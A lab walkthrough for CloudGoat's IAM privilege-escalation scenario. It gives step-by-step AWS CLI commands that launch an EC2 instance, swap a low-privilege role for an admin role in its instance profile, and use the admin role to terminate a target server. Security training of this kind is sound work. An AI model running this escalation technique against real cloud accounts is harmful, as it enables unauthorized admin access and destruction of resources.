





# Scenario 3 - IAM Privilege Escalation By Attachment

iam_privesc_by_attachment

## What is the scenario

The scenario begins with IAM User "Kerrigan" security credentials.

The objective is to delete the EC2 instance "cg-super-critical-security-server".

More scenario details - https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/iam_privesc_by_attachment/README.md

## Setting up the scenario

        python3 cloudgoat.py create iam_privesc_by_attachment

## Walkthrough

### Exploitation Route


### Step by step instructions

In this scenario, we have a set of AWS IAM Security Credentials to being with.

Let's use [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script to quickly verify what we can do with the available security credentials.



We can notice that the security credentials are permitted to do some specific operations and it is worth investigating further.

Let's first verify if "cg-super-critical-security-server", target EC2 machine that we are supposed to delete is available. An AWS convention is to put the name of the EC2 instance in a tag with the tag key as "Name" so we are retrieving EC2 tags.

        aws ec2 describe-instances \
        --query 'Reservations[*].Instances[*].[Tags]' \
        --profile kerrigan


We have sucessfully verified that the target server is available in the AWS account. Let's go ahead and continue our enumeration.

As IAM User "Kerrigan", we are allowed to retrieve information related to EC2 "Instance Profiles". An Instance Profile is a container for a single IAM Role. An EC2 Instance cannot be assigned an IAM Role directly, but it can be assigned an Instance Profile which contains a Role. Let's enumerate the Instance Profiles available. In this below command, we are using `--query` to query only Instance Roles that start with `cg-` because Cloudgoat as a convention names all the resources starting with `cg`

        aws iam list-instance-profiles \
        --query "InstanceProfiles[?starts_with(InstanceProfileName, 'cg')]" \
        --profile kerrigan



The AWS account has one Instance Profile, `cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID>` which is a container around the IAM Role `cg-ec2-meek-role-<CLOUD_GOAT_ID>`.

As IAM User "Kerrigan", we are also allowed to retrieve information related to IAM Roles. Let's enumerate the IAM roles available.

        aws iam list-roles \
        --query "Roles[?starts_with(RoleName, 'cg')]" \
        --profile kerrigan


There are two IAM roles in the AWS account - `cg-ec2-meek-role-<CLOUD_GOAT_ID>` and `cg-ec2-mighty-role-<CLOUD_GOAT_ID>`. The keywords "meek" and "mighty" suggest that one role (mighty) may have more permissions than other role (meek). All the operations performed to enumerate the permissions of  these roles have failed with an "Access Denied" error.

One possible way to figure out the permissions of these roles is to attach them to an EC2 instance and using the EC2 to enumerate the role permissions. Remember that IAM Roles can't be attached to EC2 directly, they have to be wrapped in an Instance Profile. This method requires us to be able to create/modify Instance Profiles, create an EC2 instance with Instance Profile in the AWS account.

Let's try and create an EC2 instance. To create an EC2 instance that we can use to enumerate the IAM role permissions, we need the following - 

1. A subnet to start EC2 Instance in
2. A security group that allows SSH access to the EC2 instance
3. An SSH key pair that we can use to SSH into the EC2 instance

We can use the same subnet as the target EC2 machine that we are supposed to delete.

        aws ec2 describe-instances \
        --query 'Reservations[*].Instances[*].[SubnetId]' \
        --output text --profile kerrigan


We can enumerate the security groups and use the security group that allows SSH access to the EC2 instance.

        aws ec2 describe-instances \
        --query 'Reservations[*].Instances[*].[SecurityGroups]' \
        --output text --profile kerrigan

        aws ec2 describe-security-groups --profile kerrigan


Let's try and create a new SSH Key Pair because we can't use any existing key pairs in the AWS account. We need this new key pair in order to SSH into the EC2 machine that we might create.

        aws ec2 create-key-pair \
        --key-name new-ec2  \
        --query 'KeyMaterial' \
        --output text > new-ec2.pem \
        --region us-east-1 \
        --profile kerrigan

We have all the information needed to create a new EC2 instance. Now let's try and create an EC2 instance with following criteria -

1. Same subnet as target EC2 instance
2. Security group that allows SSH access
3. Newly generate SSH key pair for SSH authentication
4. Attach the `cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID>` Instance Profile
5. Use an Ubuntu 18.04 AMI

Let's go ahead and try to create a new EC2 instance. 

        aws ec2 run-instances \
        --image-id ami-0a313d6098716f372 \
        --instance-type t2.micro \
        --iam-instance-profile \
        Arn=<INSTANCE-PROFILE-ARN> \
        --key-name new-ec2 \
        --subnet-id <SUBNET_ID> \
        --security-group-ids <SECURITY_GROUP_ID> \
        --region us-east-1 \
        --profile kerrigan

We are able to successfully create a new EC2 instance. Save the details of the new EC2 instance for later usage. 

The Instance Role `cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID>` is still a wrapper around potentially low privileged IAM Role i.e. `cg-ec2-meek-role-<CLOUD_GOAT_ID>`. Let's remove it and add `cg-ec2-mighty-role-<CLOUD_GOAT_ID>` IAM Role to the Instance Profile.


        aws iam remove-role-from-instance-profile \
        --instance-profile-name cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID> \
        --role-name cg-ec2-meek-role-<CLOUD_GOAT_ID> --profile kerrigan

        aws iam add-role-to-instance-profile \
        --instance-profile-name cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID> \
        --role-name cg-ec2-mighty-role-<CLOUD_GOAT_ID> --profile kerrigan

Let's SSH into the newly created EC2 instance - 


1. Change permissions for the SSH private key `chmod 400 new-ec2.pem`
2. Retrieve the public IP of the newly created EC2 instance

        aws ec2 describe-instances \
        --query "Reservations[*].Instances[*].PublicIpAddress" \
        --output text \
        --profile kerrigan

3. SSH into the machine using the public IP address `ssh -i new-ec2.pem ubuntu@<PUBLIC-IP-ADDRESS>`

Once you have successully SSHed into the EC2 instance, let's enumerate the IAM role `cg-ec2-mighty-role-<CLOUD_GOAT_ID>` and policy attached to it 


1. Install AWS CLI on the EC2 instance

```
sudo apt-get update

sudo apt-get install awscli
```

2. Enumerate the policy and policy permissions


        aws iam list-policies --query "Policies[?starts_with(PolicyName, 'cg')]"


        aws iam get-policy-version \
        --policy-arn "arn:aws:iam::ACCOUNT-ID:policy/cg-ec2-mighty-policy"  \
        --version-id "v1"





Notice that the `cg-ec2-mighty-role-<CLOUD_GOAT_ID>` IAM Role basically gave the EC2 instance Administrator access to the AWS account.

3. Terminate the target EC2 instance 


        aws ec2 describe-instances --region us-east-1
        aws ec2 terminate-instances --instance-ids <instanceId> --region us-east-1



## Destroy the scenario


> <p><span style="color:red"><em>Note: In this scenario you created some AWS resources manually (EC2 Instance, Key pair etc). CloudGoat can only manage resources it creates, you should remove the resources you created manually before running cloudgoat destroy.</em></span>.</p>

        python3 cloudgoat.py destroy iam_privesc_by_attachment

## References

- [Using Instance Profiles](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles_use_switch-role-ec2_instance-profiles.html)


